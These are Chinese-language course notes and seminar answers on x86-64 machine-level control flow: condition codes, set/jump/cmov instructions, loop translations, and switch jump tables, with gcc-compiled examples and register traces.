寄存器是 CPU 保存状态的存储位置，不一定保存完整的整数。教材称条件码为“单个位的寄存器”，强调每个条件码保存一个 0/1 状态；在 x86-64 中它们集中在 RFLAGS 寄存器里。条件码只被会更新它们的指令改写：mov、lea、setX、jX、cmov 都不改变条件码，inc/dec 不改变 CF，所以条件码并不总是描述“上一条指令”，而是描述“最近一条设置它的指令”。
5.3 读取条件码：setX 指令（课件 p.21–25）#
setX 指令根据条件码的组合，把目的操作数（某个单字节寄存器或内存字节）设为 0 或 1，不改变其余 7 个字节。下表中的后缀既用于 setX，也用于 5.4 节的 jX 和 5.6 节的 cmovX，必须熟记：
表 3 条件后缀（课件 p.21、27；教材图 3.14；蓝底为有符号，橙底为无符号）
| 后缀 | 条件 | 含义（在 cmp b,a 之后） | 同义名 |
|---|---|---|---|
| e | ZF | 相等 a == b / 结果为零 | z |
| ne | ~ZF | 不等 / 非零 | nz |
| s | SF | 负数 | |
| ns | ~SF | 非负数 | |
| g | ~(SF^OF) & ~ZF | a > b（有符号 greater） | nle |
| ge | ~(SF^OF) | a >= b（有符号） | nl |
| l | SF^OF | a < b（有符号 less） | nge |
| le | (SF^OF) | ZF | a <= b（有符号） | ng |
| a | ~CF & ~ZF | a > b（无符号 above） | nbe |
| ae | ~CF | a >= b（无符号） | nb |
| b | CF | a < b（无符号 below） | nae |
| be | CF | ZF | a <= b（无符号） | na |
★ 记忆方法：g/l 是有符号，a/b 是无符号
greater / less 比较有符号数，用 SF 与 OF；above / below 比较无符号数，用 CF。原因：对 cmp b,a，无符号的 a < b 恰好等价于减法 a − b 需要借位，所以 setb 直接看 CF；有符号的 a < b 需要看真实差 a − b 的符号，但 w 位结果可能溢出，溢出时 SF 恰好是反的，因此要用 SF ^ OF 修正。
表 4 为什么 setl 用 SF^OF（课件 p.22）
| SF | OF | SF ^ OF | 含义 |
|---|---|---|---|
| 0 | 0 | 0 | 没有溢出，结果非负 → 不小于 |
| 1 | 0 | 1 | 没有溢出，结果为负 → 小于 |
| 0 | 1 | 1 | 溢出，结果“看起来非负”实为负溢出（如 TMin − 1）→ 小于 |
| 1 | 1 | 0 | 溢出，结果“看起来为负”实为正溢出（如 TMax − (−1)）→ 不小于 |
setX 只写一个字节，所以通常接着用 movzbl 把结果扩展成完整的 int（p.24–25）。由第 4 讲，写 32 位寄存器会把高 32 位清零，所以 movzbl %al, %eax 同时清零了 %rax 的高 7 个字节（课件 p.25 所说的 “Zapped to all 0’s”，见图 1）。

图 1 setg 与 movzbl 对 %rax 各字节的影响（x > y 时；x86-64 实测）
int gt(long x, long y) cmpq %rsi, %rdi # 比较 x:y，即计算 x - y
{ setg %al # x > y 时 %al = 1
return x > y; movzbl %al, %eax # 零扩展，清零 %rax 其余位
} ret5.4 跳转指令与条件分支（课件 p.10–12、27–30）#
jX 指令根据条件码跳转到代码的另一个位置（p.27）。jmp 是无条件跳转；其余条件跳转的后缀与 setX 完全相同（je、jne、js、jns、jg、jge、jl、jle、ja、jb……）。跳转目标通常写成标号（如 .L4），汇编器把它编码为相对于下一条指令的偏移量（PC 相对寻址，1 字节或 4 字节有符号补码，循环回跳时为负；第 4 讲研讨题 1（6））。jmp *%rax、jmp *.L4(,%rdi,8) 这样带星号的是间接跳转，目标地址来自寄存器或内存（5.8 节）。
extern void op1(void); decision:
extern void op2(void); subq $8, %rsp # 栈对齐（第 6 讲）
testl %edi, %edi # 测试 x 是否为 0
void decision(int x) { je .L2 # x == 0 跳到 else
if (x) { call op1
op1(); jmp .L1 # 跳过 else
} else { .L2:
op2(); call op2
} .L1:
} addq $8, %rsp
ret课件 p.28 的 absdiff 例子用 gcc -Og -S -fno-if-conversion 编译（禁止转换为条件传送）：
long absdiff(long x, long y) absdiff:
{ cmpq %rsi, %rdi # x:y
long result; jle .L4 # x <= y 跳到 else
if (x > y) movq %rdi, %rax
result = x-y; subq %rsi, %rax # result = x - y
else ret
result = y-x; .L4: # x <= y
return result; movq %rsi, %rax
} subq %rdi, %rax # result = y - x
ret★ if-else 的通用翻译（课件 p.29–30）
C 代码： Goto 版本：
val = Test ? Then_Expr ntest = !Test;
: Else_Expr; if (ntest) goto Else;
val = Then_Expr;
goto Done;
Else:
val = Else_Expr;
Done:
为 then 和 else 分别生成代码块，只执行其中一个。注意编译器测试的是条件的反面（x > y 被翻译成 jle 跳到 else），这样 then 块可以紧跟在比较之后顺序执行。
5.5 练习：跟踪条件码（课件 p.34）#
表 5 课件 p.34 练习的答案（已用内联汇编逐步实测）
| 指令 | %rax | SF | CF | OF | ZF |
|---|---|---|---|---|---|
xorq %rax, %rax | 0x0000 0000 0000 0000 | 0 | 0 | 0 | 1 |
subq $1, %rax | 0xFFFF FFFF FFFF FFFF | 1 | 1 | 0 | 0 |
cmpq $2, %rax | 0xFFFF FFFF FFFF FFFF | 1 | 0 | 0 | 0 |
setl %al | 0xFFFF FFFF FFFF FF01 | 1 | 0 | 0 | 0 |
movzbl %al, %eax | 0x0000 0000 0000 0001 | 1 | 0 | 0 | 0 |
setl 和 movzbl 不修改条件码，所以最后两行的条件码保持不变。逐条分析见研讨题 1（5）。另外，课件写的 movzblq 不是合法的 GNU 汇编助记符（实测汇编器报错），应写作 movzbl %al, %eax 或 movzbq %al, %rax，两者效果相同。
5.6 条件传送（课件 p.31–33）#
条件传送指令 cmovX Src, Dest 实现“若条件成立，则 Dest ← Src”，1995 年之后的 x86 处理器都支持（p.31）。编译器可以把 val = Test ? Then_Expr : Else_Expr 翻译为：先把两个分支的结果都算出来，再根据条件选一个：
C 代码： Goto 版本：
val = Test ? Then_Expr result = Then_Expr;
: Else_Expr; eval = Else_Expr;
nt = !Test;
if (nt) result = eval; /* 用 cmov 实现 */
return result;absdiff:
movq %rdi, %rax # x
subq %rsi, %rax # result = x - y
movq %rsi, %rdx
subq %rdi, %rdx # eval = y - x
cmpq %rsi, %rdi # x:y
cmovle %rdx, %rax # if <=, result = eval
ret为什么要这样做？分支对流水线的指令流破坏很大（p.31）。现代处理器用流水线同时处理多条指令：一条指令还没执行完，后面的指令就已经开始取指和译码。遇到条件跳转时，处理器在比较结果出来之前就必须决定往哪边取指，只能靠分支预测去猜。猜对了没有损失；猜错了，已经进入流水线的指令全部作废，要浪费约 15～30 个时钟周期（教材 3.6.6 节中测得约 19 个周期）。条件传送没有控制转移，指令流是固定的，不存在猜错的问题。研讨题 1（8）对此有详细讨论。

图 2 条件跳转与流水线：预测错误时已取入的指令要作废
表 6 条件传送的三种禁区（课件 p.33）
| 不宜使用条件传送的情况 | 例子 | 后果 |
|---|---|---|
| 计算代价高 | val = Test(x) ? Hard1(x) : Hard2(x); | 两边都要算，性能差（Bad Performance） |
| 计算有风险 | val = p ? *p : 0; | p 为空时仍会读 *p，可能段错误（Unsafe） |
| 计算有副作用 | val = x > 0 ? x*=7 : x+=3; | 两个副作用都会发生，语义错误（Illegal） |
所以 gcc 只在确定安全且两边计算都很简单时才使用条件传送。例如对 long cread(long *p) { return p ? *p : 0; }，gcc 13 在 -Og 和 -O1 下都生成带分支的代码（testq %rdi,%rdi; je …; movq (%rdi),%rax），绝不会先读 *p 再选择。
5.7 循环（课件 p.37–47）#
C 有三种循环：do-while、while、for。汇编中没有专门的循环指令，三种循环都被翻译成条件跳转回到循环开头。理解了 do-while 的翻译，另外两种都可以先变换成 do-while 形式。

图 3 三种循环翻译的控制流图（课件 p.38、40、42）
do-while 循环#
long pcount_do(unsigned long x) long pcount_goto(unsigned long x)
{ {
long result = 0; long result = 0;
do { loop:
result += x & 0x1; result += x & 0x1;
x >>= 1; x >>= 1;
} while (x); if (x) goto loop;
return result; return result;
} } movl $0, %eax # result = 0
.L2: # loop:
movq %rdi, %rdx
andl $1, %edx # t = x & 0x1
addq %rdx, %rax # result += t
shrq %rdi # x >>= 1
jne .L2 # if (x) goto loop
rep; ret这段代码有几个细节值得注意：shrq %rdi 是 shrq $1, %rdi 的简写；移位指令会根据结果设置 ZF，所以 jne .L2 直接利用了移位的结果，不需要另外的 cmp 或 test。x 是 unsigned long，所以用逻辑右移 shrq。rep; ret 中的 rep 前缀没有任何作用，是为了避开某些 AMD 处理器在“跳转目标或条件跳转后紧跟 ret”时分支预测出错的问题（教材 3.6.4 节旁注 “What do the instructions rep and repz do?”），新版 gcc 已不再生成。movl 与 andl 为什么用 32 位形式，见研讨题 2（1）。
while 循环#
while 循环先测试、后执行循环体，可能一次都不执行。gcc 有两种翻译方式：
表 7 while 循环的两种翻译（课件 p.40–43）
| 方式 | 使用场合 | Goto 版本 | 特点 |
|---|---|---|---|
| 跳转到中间（jump-to-middle） | -Og | goto test;loop: Bodytest: if (Test) goto loop;done: | 开头无条件跳到测试处；测试只写一次，代码短 |
| guarded-do（转为 do-while） | -O1 | if (!Test) goto done;loop: Bodyif (Test) goto loop;done: | 先用一次测试“守住”入口，再按 do-while 执行；测试代码出现两次，但省去了开头的 jmp |
课件 p.43 问：去掉“跳转到中间”什么时候好、什么时候不好？好处是：编译器在入口处经常能确定第一次测试一定成立（例如 for 循环 i = 0; i < 32），这时初始测试可以完全省去，循环就变成了纯粹的 do-while；循环体与测试连在一起，利于进一步优化。代价是测试代码重复一次，代码稍长。gcc 13 实测：pcount_while 在 -Og 下生成 jmp .L17（跳到中间的 testq; jne），在 -O1 下生成开头的 testq %rdi,%rdi; je .L20（guarded-do），与课件一致。
for 循环#
for 循环 for (Init; Test; Update) Body 等价于 while 循环（p.45）：
Init;
while (Test) {
Body
Update;
}然后再按 while 的任一方式翻译。课件 p.44–47 的例子 pcount_for 对 i = 0 到 WSIZE − 1（WSIZE = 8 × sizeof(int) = 32）逐位统计。转成 guarded-do 后，入口处的 if (!(i < WSIZE)) goto done; 可以被优化掉——因为 i 刚被初始化为 0，0 < 32 在编译时就知道一定成立（p.47 的问题）。gcc 13 -O1 的实测结果确实没有初始测试，循环末尾是 addq $1,%rcx; cmpq $32,%rcx; jne .L23。
⚠ 一个容易忽略的细节：for 循环中的 continue
把 for 改写为 while 时，若循环体中有 continue，直接改写会让 continue 跳过 Update，造成死循环。正确的翻译应让 continue 跳到 Update 处（教材练习题 3.29）。
具体例子：同一个 for 循环在 -Og 与 -O1 下的两种翻译#
图 3 和表 7 给出的是翻译模板。要真正会读循环的汇编，最好拿一个完整的函数，从 C 代码到 goto 版本再到汇编走一遍，并且逐次跟踪寄存器的值。下面用计算阶乘的 fact_for。之所以不直接用课件的 pcount_for，是因为 pcount_for 的循环变量从 0 数到 32，编译器在编译时就知道第一次测试一定成立，-O1 下入口测试被整个删掉，看不到 guarded-do 的完整样子；fact_for 的循环次数取决于参数 n，编译器无从预知，两种翻译的每一个部件都会保留下来。先按 5.7 节的方法把 for 改写成 while，再写成“跳转到中间”的 goto 形式：Init 是 i = 2，Test 是 i <= n，Update 是 i++，Body 是 r *= i。
long fact_for(long n) long fact_goto(long n) /* 跳转到中间 */
{ {
long r = 1; long r = 1;
for (long i = 2; i <= n; i++) long i = 2; /* Init */
r *= i; goto test;
return r; loop:
} r *= i; /* Body */
i++; /* Update */
test:
if (i <= n) /* Test */
goto loop;
return r;
}# -Og：跳转到中间 # -O1：guarded-do
fact_for: fact_for:
movl $2, %eax # i = 2 cmpq $1, %rdi # 比较 n : 1
movl $1, %edx # r = 1 jle .L9 # n <= 1 不进循环
jmp .L5 # goto test addq $1, %rdi # %rdi = n + 1
.L6: # loop: movl $2, %eax # i = 2
imulq %rax, %rdx # r *= i movl $1, %edx # r = 1
addq $1, %rax # i++ .L8: # loop:
.L5: # test: imulq %rax, %rdx # r *= i
cmpq %rdi, %rax # 比较 i : n addq $1, %rax # i++
jle .L6 # i <= n 则回跳 cmpq %rdi, %rax # 比较 i : n+1
movq %rdx, %rax # 返回 r jne .L8 # 不等则回跳
ret .L6:
movq %rdx, %rax # 返回 r
ret
.L9:
movl $1, %edx # r = 1
jmp .L6先看 -Og 版本，它与上面的 goto 版本逐行对应。前两条 movl 是 Init：i 放在 %rax，r 放在 %rdx（用 32 位的 movl 写入小常数，高 32 位自动清零，见第 4 讲）。紧接着的 jmp .L5 是“跳转到中间”的标志：第一次进入时不执行循环体，而是直接跳到位于循环体之后的测试代码。.L6 到 .L5 之间是循环体和 Update；.L5 处的 cmpq %rdi, %rax 计算 i − n 并设置条件码，jle 在“有符号小于或等于”时成立（ZF = 1 或 SF ≠ OF），于是跳回 .L6 再执行一遍。i 和 n 都是 long，所以用的是有符号条件 jle，若改成 unsigned long 就会变成 jbe。测试不成立时顺序往下执行，把 r 复制到返回值寄存器 %rax 后返回。注意 Test 的代码在整个函数中只出现一次，这正是“跳转到中间”比 guarded-do 短的原因。表 8 以 n = 4 为例逐次跟踪测试的执行。
表 8 fact_for(4) 在 -Og 版本中的执行过程（n 在 %rdi 中，始终为 4）
| 第几次测试 | i（%rax） | r（%rdx） | cmpq %rdi, %rax 算出 i − n | jle .L6 | 接下来 |
|---|---|---|---|---|---|
| （入口） | 2 | 1 | — | — | jmp .L5，跳过循环体直接去测试 |
| 1 | 2 | 1 | 2 − 4 = −2 | 跳（2 ≤ 4） | 循环体：r = 2，i = 3 |
| 2 | 3 | 2 | 3 − 4 = −1 | 跳（3 ≤ 4） | 循环体：r = 6，i = 4 |
| 3 | 4 | 6 | 4 − 4 = 0 | 跳（ZF = 1） | 循环体：r = 24，i = 5 |
| 4 | 5 | 24 | 5 − 4 = 1 | 不跳 | movq %rdx, %rax；返回 24 |

图 4 fact_for 两种翻译的控制流（gcc 13 实测；红色为回跳，蓝色为向前跳）
再看 -O1 版本，它是 guarded-do：入口处先用一次测试“守门”。cmpq $1, %rdi 与 jle .L9 合起来是“若 n ≤ 1 就跳到 .L9”，这正是 if (!(2 <= n)) goto done，只是编译器把 2 <= n 等价地写成了 n > 1 再取反。.L9 把 r 设为 1，再跳到共同的出口 .L6；编译器把这条很少走的路径放在函数末尾，主路径就可以一路顺序执行下去。通过守门之后，循环按 do-while 的形式执行：循环体、Update、Test 连在一起，最后由 jne .L8 回跳，没有任何额外的 jmp。还有一处值得注意：循环内的测试不再是 i <= n，而是先在入口执行 addq $1, %rdi 得到 n + 1，再用 i != n + 1 判断。因为守门已经保证 n ≥ 2，i 从 2 开始每次加 1，它一定会恰好等于 n + 1，两种写法等价。唯一的例外是 n = LONG_MAX，此时 n + 1 溢出；但原程序在这种情况下 i++ 本身就会发生有符号溢出，属于未定义行为，编译器可以不考虑。仍以 n = 4 为例，%rdi 变为 5，循环体执行 3 次，三次测试中 i 依次为 3、4、5，前两次 jne 回跳，第三次 i == 5 落空退出。比较两个版本：n = 4 时测试都执行了 4 次（-Og 是循环内 4 次；-O1 是守门 1 次加循环内 3 次），-Og 多付出一条 jmp，-O1 则把测试代码写了两份，这就是课件 p.43 所说的取舍。
★ 从汇编认出循环的步骤（作业 3.60 与考试逆向题通用）
（1）先找向后跳的条件跳转（目标标号在跳转指令之前），从目标标号到这条跳转之间的代码就是循环。
（2）再看循环入口：开头有一条无条件 jmp 跳到循环后部的测试，是“跳转到中间”；开头有一次条件相反的测试，不满足就跳过整个循环，是 guarded-do；两者都没有，则是 do-while，或者初始测试已被编译器证明一定成立而删掉。
（3）找循环变量：循环中每次加（或减）一个常数、又参与比较的寄存器就是它；它在循环之前的赋值是 Init，加常数的指令是 Update。
（4）还原测试条件：cmpq b, a 之后的 jX 比较的是 a 与 b（顺序与书写相反）；guarded-do 的守门测试要取反才是 C 中的条件；编译器还可能改写测试（如 i <= n 变成 i != n + 1），要结合守门条件判断是否等价。
（5）最后看 ret 之前写入 %rax 的是哪个寄存器，它对应的变量就是返回值。
5.8 switch 语句与跳转表（课件 p.49–58）#
long switch_eg(long x, long y, long z)
{
long w = 1;
switch(x) {
case 1:
w = y*z;
break;
case 2:
w = y/z;
/* Fall Through */
case 3:
w += z;
break;
case 5:
case 6:
w -= z;
break;
default:
w = 2;
}
return w;
}这个例子包含了 switch 的三种特殊情况：多个 case 标号共用一段代码（5 和 6）、穿透（case 2 没有 break，执行完后继续执行 case 3）、缺失的 case（没有 case 4，落入 default）。
跳转表（jump table）是实现 switch 的高效方法（p.50）：把每个 case 对应代码块的地址存放在一个数组 JTab 中，用 x 作为下标取出地址，然后间接跳转过去，即扩展 C 语法中的 goto *JTab[x];。不论有多少个 case，都只需要一次比较（检查范围）和一次间接跳转。
switch_eg:
movq %rdx, %rcx # z 另存到 %rcx（%rdx 会被 cqto 覆盖）
cmpq $6, %rdi # x:6
ja .L8 # 无符号 x > 6 -> default
jmp *.L4(,%rdi,8) # goto *JTab[x]
.section .rodata
.align 8
.L4:
.quad .L8 # x = 0
.quad .L3 # x = 1
.quad .L5 # x = 2
.quad .L9 # x = 3
.quad .L8 # x = 4
.quad .L7 # x = 5
.quad .L7 # x = 6★ 两个关键技巧
第一个技巧是用一次无符号比较同时排除 x < 0 和 x > 6：cmpq $6, %rdi; ja .L8 使用无符号的 ja。负数按无符号解释是一个很大的数，必然大于 6，所以也会跳到 default。这回答了课件 p.51 的问题“What range of values takes default?”：x < 0、x > 6，以及表中指向 .L8 的 x = 0 和 x = 4。
间接跳转 jmp *.L4(,%rdi,8)：.L4 是跳转表的起始地址，每个表项是 8 字节的地址（.quad），所以比例因子为 8；从内存地址 .L4 + 8x 处读出 8 字节作为跳转目标（p.53）。只对 0 ≤ x ≤ 6 有效，所以必须先做范围检查。

图 5 switch_eg 的跳转表结构（课件 p.50、54；同色表示同一个目标）
下面看各代码块（p.55–58）。case 1 movq %rsi,%rax; imulq %rdx,%rax; ret；case 2 先算 y/z（cqto; idivq %rcx），然后 jmp .L6 跳到 case 3 中 w += z 的位置——这就是穿透的实现：编译器把 case 3 拆成“w = 1”和“合并点 merge: w += z”两部分，case 2 直接跳到合并点（p.56）；case 5、6 共用 .L7；default 为 .L8。注意 w 在 setup 中没有被初始化为 1（p.51 的提示），而是在真正需要它的分支（.L9、.L7）中才 movl $1,%eax，避免了无用的赋值。
⚠ 新版 gcc 未必生成跳转表
gcc 13 在 -Og 下对 switch_eg 生成的是判定树（一串 cmp/je/jg），而不是跳转表：gcc 认为 case 太少（case 5、6 合并成一个区间后只剩 4 组）时，比较几次比查表更快。课件 p.59 的总结也说：“稀疏的 switch 可能使用判定树”。加选项 --param case-values-threshold=4 可以强制使用跳转表；再加 -fno-pie，setup 与跳转表的结构与课件相同（jmp *.L25(,%rdi,8)，表项为 .quad；标号和个别代码块的寄存器顺序略有不同）。默认的 PIE 模式下，跳转表中存放的是 4 字节的相对偏移（.long .L29-.L25），先 movslq 取出偏移、加上表基址再 jmp *%rax，这样代码可以加载到任意地址。
本讲总结（课件 p.59–60）#
| C 的控制结构 | 汇编中的控制手段 | 标准技术 |
|---|---|---|
| if-then-else | 条件跳转（jX） | 循环转换为 do-while 或“跳转到中间”形式 |
| do-while | 条件传送（cmovX） | 较大的 switch 使用跳转表 |
| while、for | 间接跳转（通过跳转表） | 稀疏的 switch 可能使用判定树（if-elseif-else） |
| switch | 编译器生成指令序列实现更复杂的控制 |
下一讲将介绍栈、call / return 与过程调用约定。
5.9 在二进制文件中寻找跳转表（附加页 p.62–64）#
附加页展示了如何在只有可执行文件、没有源代码时（如 Bomb Lab）还原 switch。反汇编中 jmpq *0x4007f0(,%rdi,8) 说明跳转表位于 0x4007f0；在 gdb 中用 x/8xg 0x4007f0 查看 8 个 8 字节（giant word）的值，就得到每个 case 的目标地址，再对照反汇编找出对应的代码块。详细分析见研讨题 2（9）。
第二部分 小班研讨题解答（第 5 讲）#
题目来自《ICS 小班研讨题和作业题（第 5 讲）》。“课件第 x 页”均指 2026 年课件 ICS05-machine-control-20260921。汇编代码均经 gcc 13 实际编译，标志位结果均用内联汇编实测。
研讨题 1：条件码和条件分支#
1（1）简述本讲学到的四个条件码 CF、ZF、SF、OF 各是什么含义，以课件第 14 页的加法运算为例，说明它们在什么情况下会被置 1 和置 0。
以 addq Src, Dest（t = a + b，a、b 为 64 位）为例。CPU 计算出 t 的同时，按下面的规则设置四个条件码，每个条件码在规则成立时置 1、否则置 0：
| 条件码 | 含义 | 置 1 的条件 | 置 0 的条件 | 例子（64 位） |
|---|---|---|---|---|
| CF 进位标志 | 无符号运算溢出 | 把 a、b 当无符号数时 a + b ≥ ，最高位产生进位 | 无符号和小于 | UMax + 1：CF = 1；1 + 2：CF = 0 |
| ZF 零标志 | 结果为 0 | t 的 64 位全为 0 | t ≠ 0 | (−1) + 1：ZF = 1 |
| SF 符号标志 | 结果为负（有符号） | t 的最高位为 1 | t 的最高位为 0 | (−5) + 2 = −3：SF = 1 |
| OF 溢出标志 | 补码运算溢出 | a、b 同号且 t 与它们异号：(a>0 && b>0 && t<0) || (a<0 && b<0 && t>=0) | 异号相加，或同号相加未溢出 | TMax + 1：OF = 1；(−1) + 1：OF = 0 |
这里有几个要点：（1）同一次加法同时设置 CF 和 OF，CPU 不区分有无符号，由后续指令选择使用哪个标志；（2）CF 与 OF 互相独立，四种组合都可能出现：TMax + 1 是 CF = 0、OF = 1；(−1) + 1 是 CF = 1、OF = 0；TMin + TMin 是 CF = 1、OF = 1（结果为 0，ZF 也为 1）；1 + 2 是全 0（这些都已实测，见 5.2 节）；（3）leaq 不设置任何条件码；（4）对减法，CF 表示借位，即无符号 a < b。
1（2）对比 cmpq b,a 和 subq b,a 两条指令操作的异同。
subq b, a | cmpq b, a | |
|---|---|---|
| 计算 | a − b | a − b |
| 结果写回 | 写回 a（a 被修改） | 不保存结果，a、b 都不变 |
| 条件码 | 按 a − b 设置 CF、ZF、SF、OF | 与 subq 完全相同 |
| 用途 | 算术运算 | 为后续的 jX / setX / cmovX 提供比较结果 |
| 操作数限制 | a 不能是立即数 | a 也不能是立即数（cmpq %rax, $5 非法，应写 cmpq $5, %rax） |
cmp 本质上就是“只设置条件码的 sub”。设计它的原因是：比较往往只是为了决定控制流，并不需要差值本身；若用 sub，就得先把 a 复制到别的寄存器，以免破坏原值。另外，若 sub 的结果恰好也需要，编译器可以直接利用 sub 设置的条件码而省去 cmp（类似 5.7 节 pcount 中 shrq 之后直接 jne）。
1（3）对比 testq b,a 和 andq b,a 两条指令操作的异同；教材 3.6.1 节提到了 testq 指令的两种典型用法，分别举例说明。
andq b, a | testq b, a | |
|---|---|---|
| 计算 | a & b | a & b |
| 结果写回 | 写回 a | 不保存结果 |
| 条件码 | ZF、SF 按结果设置；CF、OF 清零 | 相同 |
| 用途 | 按位运算（如掩码清零） | 测试某些位，为跳转提供条件 |
教材 3.6.1 节说，test 通常有两种用法：
同一个操作数重复两次，判断它是负数、零还是正数：testq %rax, %rax 计算 rax & rax = rax 本身，于是 ZF = 1 表示 rax == 0，SF = 1 表示 rax < 0。例如课件 p.11 decision 函数中的 testl %edi, %edi; je .L2 实现 if (x)；又如 long cread(long *p) { return p ? *p : 0; } 被 gcc 编译为 testq %rdi, %rdi; je .L36，检查指针是否为空。它比 cmpq $0, %rax 编码更短（不需要立即数），效果相同。
其中一个操作数是掩码，测试特定的位：例如判断奇偶，testq $1, %rax; jne odd：rax = 13（1101）时 13 & 1 = 1，ZF = 0，跳转；rax = 12（1100）时结果为 0，ZF = 1（已实测）。又如 testb $0x80, %al 测试最低字节的最高位。
⚠ test 的常见误区
testq $0, %rax 的结果恒为 0，无法判断 rax 是否为零；用掩码测试得到 ZF = 0 只说明“被选中的位中至少有一位为 1”，不说明这些位全为 1。
1（4）基于课件第 24 页的内容，先逐行解读汇编代码的操作；然后分析：如果把 C 代码改为“return x<=y;”，汇编代码会如何变化。
| 汇编 | 操作 | 对应 C |
|---|---|---|
cmpq %rsi, %rdi | 计算 %rdi − %rsi，即 x − y，只设置条件码 | 比较 x 与 y |
setg %al | 若 ~(SF^OF) & ~ZF（有符号 x > y）则 %al = 1，否则 %al = 0；%rax 其余 7 字节不变 | x > y 的值 |
movzbl %al, %eax | 把 %al 零扩展到 %eax；写 32 位寄存器又自动清零 %rax 的高 32 位，因此整个 %rax 为 0 或 1 | 转换为 int 返回值 |
